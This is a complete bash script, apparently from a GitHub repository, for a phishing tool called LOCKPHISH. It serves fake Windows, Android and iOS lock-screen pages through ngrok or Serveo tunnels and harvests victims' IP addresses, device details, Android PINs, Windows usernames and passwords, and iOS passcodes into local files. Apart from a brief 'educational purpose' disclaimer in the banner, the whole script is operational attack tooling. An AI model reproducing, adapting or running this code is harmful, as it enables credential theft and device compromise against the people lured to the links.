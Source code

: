 # lam12hck
 -0,0 +1,329 @@
￼trap 'printf "\n";stop' 2
￼
￼banner() {
￼function print_centered {
￼     [[ $# == 0 ]] && return 1
￼
￼     declare -i TERM_COLS="$(tput cols)"
￼     declare -i str_len="${#1}"
￼     [[ $str_len -ge $TERM_COLS ]] && {
￼          echo "$1";
￼          return 0;
￼     }
￼
￼     declare -i filler_len="$(( (TERM_COLS - str_len) / 2 ))"
￼     [[ $# -ge 2 ]] && ch="${2:0:1}" || ch=" "
￼     filler=""
￼     for (( i = 0; i < filler_len; i++ )); do
￼          filler="${filler}${ch}"
￼     done
￼
￼     printf "%s%s%s" "$filler" "$1" "$filler"
￼     [[ $(( (TERM_COLS - str_len) % 2 )) -ne 0 ]] && printf "%s" "${ch}"
￼     printf "\n"
￼
￼     return 0
￼}
￼
￼RED='\033[0;31m'
￼GREEN='\033[0;32m'
￼BLUE='\033[0;34m'
￼printf "${RED}"
￼printf "${GREEN}"
￼print_centered "LOCKPHISH v1.0"
￼printf "${BLUE}"
￼print_centered "WhiteDevil"
￼printf "${RED}"
￼print_centered "Disclaimer:"
￼print_centered "This is only meant for educational purpose."
￼print_centered "Do not Use This To Harm Others."
￼print_centered "I Am Not Responsible For The Misuse Of The Script."
￼printf "\n"
￼}
￼
￼stop() {
￼
￼checkngrok=$(ps aux | grep -o "ngrok" | head -n1)
￼checkphp=$(ps aux | grep -o "php" | head -n1)
￼checkssh=$(ps aux | grep -o "ssh" | head -n1)
￼if [[ $checkngrok == *'ngrok'* ]]; then
￼pkill -f -2 ngrok > /dev/null 2>&1
￼killall -2 ngrok > /dev/null 2>&1
￼fi
￼
￼if [[ $checkphp == *'php'* ]]; then
￼killall -2 php > /dev/null 2>&1
￼fi
￼if [[ $checkssh == *'ssh'* ]]; then
￼killall -2 ssh > /dev/null 2>&1
￼fi
￼exit 1
￼
￼}
￼
￼dependencies() {
￼
￼
￼command -v php > /dev/null 2>&1 || { echo >&2 "I require php but it's not installed. Install it. Aborting."; exit 1; }
￼
￼
￼
￼}
￼
￼catch_ip() {
￼
￼ip=$(grep -a 'IP:' ip.txt | cut -d " " -f2 | tr -d '\r')
￼IFS=$'\n'
￼device=$(grep -o ';.*;*)' ip.txt | cut -d ')' -f1 | tr -d ";")
￼printf "\e[1;93m[\e[0m\e[1;77m+\e[0m\e[1;93m] IP:\e[0m\e[1;77m %s\e[0m\n" $ip
￼printf "\e[1;93m[\e[0m\e[1;77m+\e[0m\e[1;93m] Device:\e[0m\e[1;77m %s\e[0m\n" $device
￼cat ip.txt >> saved.ip.txt
￼
￼
￼}
￼
￼checkfound() {
￼
￼printf "\n"
￼printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Waiting targets,\e[0m\e[1;77m Press Ctrl + C to exit...\e[0m\n"
￼while [ true ]; do
￼
￼
￼if [[ -e "ip.txt" ]]; then
￼printf "\n\e[1;92m[\e[0m+\e[1;92m] Target opened the link!\n"
￼catch_ip
￼rm -rf ip.txt
￼
￼fi
￼
￼sleep 0.5
￼
￼if [[ -e "pin.txt" ]]; then
￼printf "\n\e[1;92m[\e[0m+\e[1;92m] Android PIN received!\e[0m\n"
￼pin=$(tail -n1 pin.txt)
￼printf "\e[1;92m[\e[0m+\e[1;92m] PIN:\e[0m\e[1;77m %s\e[0m\n" $pin
￼printf "\e[1;92m[\e[0m+\e[1;92m] Saved:\e[0m\e[1;77m pin.saved.txt\e[0m\n"
￼cat pin.txt >> pin.saved.txt
￼rm -rf pin.txt
￼fi
￼
￼if [[ -e "passwords.txt" ]]; then
￼printf "\n\e[1;92m[\e[0m+\e[1;92m] Win credentials received!\e[0m\n"
￼username=$(tail -n1 usernames.txt)
￼password=$(tail -n1 passwords.txt)
￼printf "\e[1;92m[\e[0m+\e[1;92m] Username:\e[0m\e[1;77m %s\e[0m\n" $username
￼printf "\e[1;92m[\e[0m+\e[1;92m] Password:\e[0m\e[1;77m %s\e[0m\n" $password
￼printf "\e[1;92m[\e[0m+\e[1;92m] Saved:\e[0m\e[1;77m win.saved.txt\e[0m\n"
￼cat usernames.txt >> win.saved.txt
￼cat passwords.txt >> win.saved.txt
￼rm -rf usernames.txt
￼rm -rf passwords.txt
￼fi
￼
￼if [[ -e "passcode.txt" ]]; then
￼printf "\n\e[1;92m[\e[0m+\e[1;92m] IOS passcode received!\e[0m\n"
￼passcode=$(tail -n1 passcode.txt)
￼printf "\e[1;92m[\e[0m+\e[1;92m] Passcode:\e[0m\e[1;77m  %s\e[0m\n" $passcode
￼printf "\e[1;92m[\e[0m+\e[1;92m] Saved:\e[0m\e[1;77m  passcode.txt\e[0m\n"
￼cat passcode.txt >> passcode.saved.txt
￼rm -rf passcode.txt
￼fi
￼
￼sleep 0.5
￼
￼done 
￼
￼}
￼
￼### SERVEO DISABLED
￼server() {
￼
￼command -v ssh > /dev/null 2>&1 || { echo >&2 "I require ssh but it's not installed. Install it. Aborting."; exit 1; }
￼
￼printf "\e[1;77m[\e[0m\e[1;93m+\e[0m\e[1;77m] Starting Serveo...\e[0m\n"
￼
￼if [[ $checkphp == *'php'* ]]; then
￼killall -2 php > /dev/null 2>&1
￼fi
￼
￼if [[ $subdomain_resp == true ]]; then
￼
￼$(which sh) -c 'ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -R '$subdomain':80:localhost:3333 serveo.net  2> /dev/null > sendlink ' &
￼
￼sleep 8
￼else
￼$(which sh) -c 'ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -R 80:localhost:3333 serveo.net 2> /dev/null > sendlink ' &
￼
￼sleep 8
￼fi
￼printf "\e[1;77m[\e[0m\e[1;33m+\e[0m\e[1;77m] Starting php server... (localhost:3333)\e[0m\n"
￼fuser -k 3333/tcp > /dev/null 2>&1
￼php -S localhost:3333 > /dev/null 2>&1 &
￼sleep 3
￼send_link=$(grep -o "https://[0-9a-z]*\.serveo.net" sendlink)
￼printf '\e[1;93m[\e[0m\e[1;77m+\e[0m\e[1;93m] Direct link:\e[0m\e[1;77m %s\n' $send_link
￼
￼}
￼
￼
￼payload_ngrok() {
￼url=$redirect #"https://www.youtube.com"
￼link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[0-9a-z]*\.ngrok.io")
￼payload_name="index"
￼printf "\e[1;77m[\e[0m\e[1;33m+\e[0m\e[1;77m] Building webpages\e[0m\n"
￼sed 's+forwarding_url+'$url'+g' post.php > cat.php
￼sed 's+forwarding_link+'$link'+g' win.html | sed 's+forwarding_url+'$url'+g' > win2.html
￼sed 's+forwarding_link+'$link'+g' phone.html | sed 's+forwarding_url+'$url'+g' > iphone2.html
￼sed 's+forwarding_link+'$link'+g' droid.html | sed 's+forwarding_url+'$url'+g' > droid2.html
￼
￼IFS=$'\n'
￼data_base64=$(base64 -w 0 win2.html)
￼temp64="$( echo "${data_base64}" | sed 's/[\\&*./+!]/\\&/g' )"
￼
￼#printf "\e[1;77m[\e[0m\e[1;33m+\e[0m\e[1;77m] Converting webpage to base64\e[0m\n" 
￼#printf "\e[1;77m[\e[0m\e[1;33m+\e[0m\e[1;77m] Injecting Data URI code (base64) into index2.html\e[0m\n"
￼sed 's+forwarding_link+'$link'+g' template.html | sed 's+payload_name+'$payload_name'+g' | sed 's+data_base64+'${temp64}'+g ' > index2.html
￼
￼link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[0-9a-z]*\.ngrok.io")
￼printf "\e[1;92m[\e[0m+\e[1;33m] Direct link:\e[0m\e[1;77m %s\e[0m\n" $link
￼}
￼
￼ngrok_server() {
￼
￼
￼if [[ -e ngrok ]]; then
￼echo ""
￼else
￼command -v unzip > /dev/null 2>&1 || { echo >&2 "I require unzip but it's not installed. Install it. Aborting."; exit 1; }
￼command -v wget > /dev/null 2>&1 || { echo >&2 "I require wget but it's not installed. Install it. Aborting."; exit 1; }
￼printf "\e[1;92m[\e[0m+\e[1;92m] Downloading Ngrok...\n"
￼arch=$(uname -a | grep -o 'arm' | head -n1)
￼arch2=$(uname -a | grep -o 'Android' | head -n1)
￼if [[ $arch == *'arm'* ]] || [[ $arch2 == *'Android'* ]] ; then
￼wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm.zip > /dev/null 2>&1
￼
￼if [[ -e ngrok-stable-linux-arm.zip ]]; then
￼unzip ngrok-stable-linux-arm.zip > /dev/null 2>&1
￼chmod +x ngrok
￼rm -rf ngrok-stable-linux-arm.zip
￼else
￼printf "\e[1;93m[!] Download error... Termux, run:\e[0m\e[1;77m pkg install wget\e[0m\n"
￼exit 1
￼fi
￼
￼else
￼wget --no-check-certificate https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-386.zip > /dev/null 2>&1 
￼if [[ -e ngrok-stable-linux-386.zip ]]; then
￼unzip ngrok-stable-linux-386.zip > /dev/null 2>&1
￼chmod +x ngrok
￼rm -rf ngrok-stable-linux-386.zip
￼else
￼printf "\e[1;93m[!] Download error... \e[0m\n"
￼exit 1
￼fi
￼fi
￼fi
￼
￼printf "\e[1;92m[\e[0m+\e[1;92m] Starting php server...\n"
￼php -S 127.0.0.1:3333 > /dev/null 2>&1 & 
￼sleep 2
￼printf "\e[1;92m[\e[0m+\e[1;92m] Starting ngrok server...\n"
￼./ngrok http 3333 > /dev/null 2>&1 &
￼sleep 10
￼
￼payload_ngrok
￼checkfound
￼}
￼
￼# DISABLED
￼start1() {
￼if [[ -e sendlink ]]; then
￼rm -rf sendlink
￼fi
￼
￼printf "\n"
￼printf "\e[1;92m[\e[0m\e[1;77m01\e[0m\e[1;92m]\e[0m\e[1;93m Serveo.net\e[0m\n"
￼printf "\e[1;92m[\e[0m\e[1;77m02\e[0m\e[1;92m]\e[0m\e[1;93m Ngrok\e[0m\n"
￼default_option_server="1"
￼read -p $'\n\e[1;92m[\e[0m\e[1;77m+\e[0m\e[1;92m] Choose a Port Forwarding option: \e[0m' option_server
￼option_server="${option_server:-${default_option_server}}"
￼if [[ $option_server -eq 1 ]]; then
￼
￼command -v php > /dev/null 2>&1 || { echo >&2 "I require ssh but it's not installed. Install it. Aborting."; exit 1; }
￼start
￼
￼elif [[ $option_server -eq 2 ]]; then
￼ngrok_server
￼else
￼printf "\e[1;93m [!] Invalid option!\e[0m\n"
￼sleep 1
￼clear
￼start1
￼fi
￼
￼}
￼
￼
￼payload() {
￼
￼link=$(grep -o "https://[0-9a-z]*\.serveo.net" sendlink)
￼
￼url=$redirect # "https://www.youtube.com"
￼link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[0-9a-z]*\.ngrok.io")
￼payload_name="index"
￼printf "\e[1;77m[\e[0m\e[1;33m+\e[0m\e[1;77m] Building webpages...\e[0m\n"
￼sed 's+forwarding_url+'$url'+g' post.php > cat.php
￼sed 's+forwarding_link+'$link'+g' win.html | sed 's+forwarding_url+'$url'+g' > win2.html
￼sed 's+forwarding_link+'$link'+g' phone.html | sed 's+forwarding_url+'$url'+g' > iphone2.html
￼sed 's+forwarding_link+'$link'+g' droid.html | sed 's+forwarding_url+'$url'+g' > droid2.html
￼
￼IFS=$'\n'
￼data_base64=$(base64 -w 0 win2.html)
￼temp64="$( echo "${data_base64}" | sed 's/[\\&*./+!]/\\&/g' )"
￼
￼#printf "\e[1;77m[\e[0m\e[1;33m+\e[0m\e[1;77m] Converting webpage to base64\e[0m\n" 
￼#printf "\e[1;77m[\e[0m\e[1;33m+\e[0m\e[1;77m] Injecting Data URI code (base64) into index2.html\e[0m\n"
￼sed 's+forwarding_link+'$link'+g' template.html | sed 's+payload_name+'$payload_name'+g' | sed 's+data_base64+'${temp64}'+g ' > index2.html
￼
￼
￼
￼}
￼
￼start() {
￼
￼default_choose_sub="Y"
￼default_subdomain="saycheese$RANDOM"
￼
￼printf '\e[1;33m[\e[0m\e[1;77m+\e[0m\e[1;33m] Choose subdomain? (Default:\e[0m\e[1;77m [Y/n] \e[0m\e[1;33m): \e[0m'
￼read choose_sub
￼choose_sub="${choose_sub:-${default_choose_sub}}"
￼if [[ $choose_sub == "Y" || $choose_sub == "y" || $choose_sub == "Yes" || $choose_sub == "yes" ]]; then
￼subdomain_resp=true
￼printf '\e[1;33m[\e[0m\e[1;77m+\e[0m\e[1;33m] Subdomain: (Default:\e[0m\e[1;77m %s \e[0m\e[1;33m): \e[0m' $default_subdomain
￼read subdomain
￼subdomain="${subdomain:-${default_subdomain}}"
￼fi
￼
￼server
￼payload
￼checkfound
￼
￼}
￼
￼redirect() {
￼
￼
￼default_redirect="https://www.youtube.com"
￼
￼printf '\e[1;33m[\e[0m\e[1;77m+\e[0m\e[1;33m] Redirect after phishing (Default:\e[0m\e[1;77m Youtube \e[0m\e[1;33m): \e[0m'
￼read redirect
￼redirect="${redirect:-${default_redirect}}"
￼
￼}
￼
￼banner
￼dependencies
￼#start1 # DISABLED
￼redirect
￼ngrok_server
